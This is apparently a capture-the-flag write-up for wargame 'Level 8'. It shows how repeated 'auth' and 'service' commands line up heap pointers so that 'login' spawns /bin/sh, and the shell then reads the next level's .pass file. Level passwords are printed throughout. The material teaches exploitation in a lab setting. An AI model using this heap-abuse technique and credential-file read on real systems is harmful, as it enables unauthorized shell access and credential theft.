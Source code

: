 # Level 8
*password : 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9*

```
$ scp -P 4242 level8@192.168.56.108:level8 binary/
```

## Analyze

bool4 must be true

```
while ((bool)bool3) {
  if (fd == 0) break;
  --fd;
  bool4 = *str_tmp < *cmp;
  bool3 = *str_tmp == *cmp;
  ++str_tmp;
  ++cmp;
}
```

at the end of the loop str_tmp[i] must be < to cmp[i]

cmp = "login"\
str = input

### Check

```
$ ./level8
login
Segmentation fault (core dumped)
```
condition pass

---

auth[8] (auth + 32) must be different to '\0'

```
  if (auth[8] == 0) {
    fwrite("Password:\n",1,10,stdout);
  }
  else {
    system("/bin/sh");
  }
```
So if service address = auth address + 32 : auth[8] != 0
### Check
```
$ ./level8
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
`0x804a028 - 0x804a008 = 32`

